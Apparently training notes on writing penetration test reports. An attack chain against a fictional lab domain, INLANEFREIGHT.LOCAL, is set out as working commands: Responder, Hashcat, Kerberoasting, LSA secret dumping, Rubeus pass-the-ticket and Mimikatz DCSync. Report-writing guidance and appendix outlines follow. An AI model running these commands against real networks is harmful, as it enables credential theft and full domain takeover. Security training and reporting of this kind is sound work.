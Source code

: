 ## Attack Chain

1. The tester utilized the Responder tool to obtain an NTLMv2 password hash for a domain user, bsmith.
```shell-session
sudo responder -I eth0 -wrfv
```

2. This password hash was successfully cracked offline using the Hashcat tool to reveal the user's cleartext password, which granted a foothold into the INLANEFREIGHT.LOCAL domain, but with no more privileges than a standard domain user.
```shell-session
hashcat -m 5600 bsmith_hash /usr/share/wordlists/rockyou.txt 
```

3. The tester then ran the BloodHound.py tool, a Python version of the popular SharpHound collection tool to enumerate the domain and create visual representations of attack paths. Upon review, the tester found that multiple privileged users existed in the domain configured with Service Principal Names (SPNs), which can be leveraged to perform a Kerberoasting attack and retrieve TGS Kerberos tickets for the accounts which can be cracked offline using Hashcat if a weak password is set. From here, the tester used the GetUserSPNs.py tool to carry out a targeted Kerberoasting attack against the mssqlsvc account, having found that the mssqlsvc account had local administrator rights over the host SQL01.INLANEFREIGHT.LOCAL which was an interesting target in the domain.
```shell-session
sudo bloodhound-python -u 'bsmith' -p '<REDACTED>' -d inlanefreight.local -ns 192.168.195.204 -c All
```
```shell-session
GetUserSPNs.py INLANEFREIGHT.LOCAL/bsmith -dc-ip 192.168.195.204 -request-user mssqlsvc
```

4. The tester successfully cracked this account's password offline, revealing the cleartext value.
```shell-session
hashcat -m 13100 mssqlsvc_tgs /usr/share/wordlists/rockyou.txt
```

5. The tester authenticated to the host SQL01.INLANEFREIGHT.LOCAL and retrieved a cleartext password from the host's registry by decrypting LSA secrets for an account (srvadmin), which was set up for autologon.
```shell-session
crackmapexec smb 192.168.195.220 -u mssqlsvc -p <REDACTED> --lsa
```

6. This srvadmin account had local administrator rights over all servers (aside from Domain Controllers) in the domain, so the tester logged into the MS01.INLANEFREIGHT.LOCAL host and retrieved a Kerberos TGT ticket for a logged-in user, pramirez. This user was part of the Tier I Server Admins group, which granted the account DCSync rights over the domain object. This attack can be utilized to retrieve the NTLM password hash for any user in the domain, resulting in domain compromise and persistence via a Golden Ticket.
```shell-session
query user
```

7. The tester used the Rubeus tool to extract the Kerberos TGT ticket for the pramirez user and perform a Pass-the-Ticket attack to authenticate as this user.
```shell-session
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x1a8b19 /service:krbtgt
.\Rubeus.exe ptt /ticket:doIFZDCCBWCgAwIBBaEDAgEWo<SNIP>
klist
```

8. Finally, the tester performed a DCSync attack after successfully authenticating with this user account via the Mimikatz tool, which ended in domain compromise.
```shell-session
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\administrator
```
```shell-session
sudo crackmapexec smb 192.168.195.204 -u administrator -H e4axxxxxxxxxxxxxxxx1c88c2e94cba2
```
```shell-session
secretsdump.py inlanefreight/administrator@192.168.195.204 -hashes ad3b435b51404eeaad3b435b51404ee:e4axxxxxxxxxxxxxxxx1c88c2e94cba2 -just-dc-ntlm
```


## Executive Summary

DO
- When talking about metrics, be as specific as possible.
- It's a summary. Keep it that way.
- Describe the types of things you managed to access (HR documents, banking systems, etc.)
- Describe the general things that need to improve to mitigate the risks you discovered
- Provide general expectation for how much effort will be necessary to fix some of this.

DO NOT
- Name or recommend specific vendors
- Use acronyms
- Include insignificant findings
- Complex vocabulary
- Reference a more technical section of the report

**Vocabulary Changes
VPN, SSH - a protocol used for secure remote administration
SSL/TLS - technology used to facilitate secure web browsing
Hash - the output from an algorithm commonly used to validate file integrity
Password Spraying - an attack in which a single, easily-guessable password is attempted for a large list of harvested user accounts
Password Cracking - an offline password attack in which the cryptographic form of a user’s password is converted back to its human-readable form
Buffer overflow/deserialization/etc. - an attack that resulted in remote command execution on the target host
OSINT - Open Source Intelligence Gathering, or hunting/using data about a company and its employees that can be found using search engines and other public sources without interacting with a company's external network
SQL injection/XSS - a vulnerability in which input is accepted from the user without sanitizing characters meant to manipulate the application's logic in an unintended manner


## Summary of Recommendations

1. Create a baseline security templates for Windows Server and Workstation hosts
2. Perform periodic Social Engineering engagements with follow-on debriefings and security awareness training to build a security-focused culture within the organization from the top down.


## Appendices

**Static Appendices
- Scope
- Methodology
- Severity Ratings
- Biographies

**Dynamic Appendices
- Exploitation Attempts and Payloads
- Compromised Credentials
- Configuration Changes
- Additional Affected Scope
- Information Gathering
- Domain Password Analysis
